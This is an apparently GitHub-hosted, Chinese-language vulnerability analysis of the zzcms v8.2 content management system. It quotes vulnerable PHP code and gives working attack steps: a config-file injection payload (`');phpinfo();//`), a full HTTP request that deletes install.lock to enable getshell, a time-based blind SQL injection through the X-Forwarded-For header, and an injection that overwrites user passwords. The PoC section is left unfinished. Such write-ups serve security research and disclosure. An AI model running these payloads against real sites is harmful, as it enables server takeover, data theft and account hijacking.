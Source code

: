 # zzcms v8.2 && zzcms xmv8.2
## source code

## source
1. 组合getshell http://www.freebuf.com/column/166525.html
2. SQL注入 http://www.freebuf.com/vuls/161888.html

## fingerprint
`http://url/image/zzcms-color.gif`

# analysis

### install 配置文件任意内容写入
install/index.php 91
```
case '5'://安装进度
		function dexit($msg) {
			echo '<script>alert("'.$msg.'");window.history.back();</script>';
			exit;
		}
		
		$conn=connect($db_host,$db_user,$db_pass,'',$db_port);
		if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
		$db_name or dexit('请填写数据库名');
		if(!select_db($db_name)) {
			if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
		}
		
		//保存配置文件
		$fp="../inc/config.php";
		$f = fopen($fp,'r');
		$str = fread($f,filesize($fp));
		fclose($f);
		$str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
		$str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
		$str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
		$str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
		$str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
		$str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
		$str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
		$f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
		fputs($f,$str);//把替换后的内容写入文件
		fclose($f);
		//创建数据
		include 'step_'.$step.'.php';
		break;
```
写入位置`$url`,将闭合字符串，类似`');phpinfo();//`

### 任意文件删除
`grep -i -r 'unlink(' *` 查找文件删除函数，具体可以找到几个前台的点，`user/del.php`,`user/ppsave.php`,`user/ztconfig.php`,`user/zssave.php`
这里拿user/ztconfig.php做分析
user/ztconfig.php 68
```
if($oldbannerbg<>$bannerbg && $oldbannerbg<>"/image/nopic.gif" && $oldbannerbg<>"" ) {
	$f="../".$oldbannerbg;
	if(file_exists($f)){
	unlink($f);
	}
}
```
用burp生成数据包
```
POST /user/ztconfig.php HTTP/1.1
Host: 10.254.254.254
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; bdshare_firstime=1522576407866; PHPSESSID=sg029uce7fh0o0f2s3jch4r575; UserName=admin; PassWord=0192023a7bbd73250516f069df18b500
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

action=modify&oldimg=install/install.lock&img=123
```
删除了install.lock，利用上面的配置文件写入造成getshell(注意这里需要cookie有用户信息，也就是先登陆)

### 登陆处盲注(复现时发现的另一个漏洞)
造成漏洞的函数getip(), inc/function.php  100
```
function getip(){ 
    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown"))
        $ip = getenv("HTTP_CLIENT_IP");
    else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown"))
        $ip = getenv("HTTP_X_FORWARDED_FOR");
    else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown"))
        $ip = getenv("REMOTE_ADDR");
    else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown"))
        $ip = $_SERVER['REMOTE_ADDR'];
    else
        $ip = "unknown";
    return($ip);
} 
```
未对ip做检验，查找一下getip()的调用，发现user/logincheck.php 18
```
$ip=getip();
define('trytimes',5);//可尝试登录次数
define('jgsj',10*60);//间隔时间，秒
$sql="select * from zzcms_login_times where ip='$ip' and count>=".trytimes." and unix_timestamp()-unix_timestamp(sendtime)<".jgsj." ";
$rs = query($sql); 
$row= num_rows($rs);
```
直接带入SQL查询，造成SQL盲注。payload可以放在X-Forwarded-For处
如 `X-Forwarded-For: 127.0.0.4' and if((select substr(admin,1,1) from zzcms.zzcms_admin limit 1)='a',sleep(5),1) -- +`

#### 关于getip()的另一种利用方式
除了上面带入select查询，发现还有update语句，所以可以同样更新用户账户密码。
step 1 找到目标用户名，创建一个与目标用户相同的用户(虽然有检验，但是可以通过最后发送前的修改，导致相同用户名的创建)
step 2 X-Forwarded-For处带上payload，如 `127.0.0.1',password='xxxx`

# PoC
continue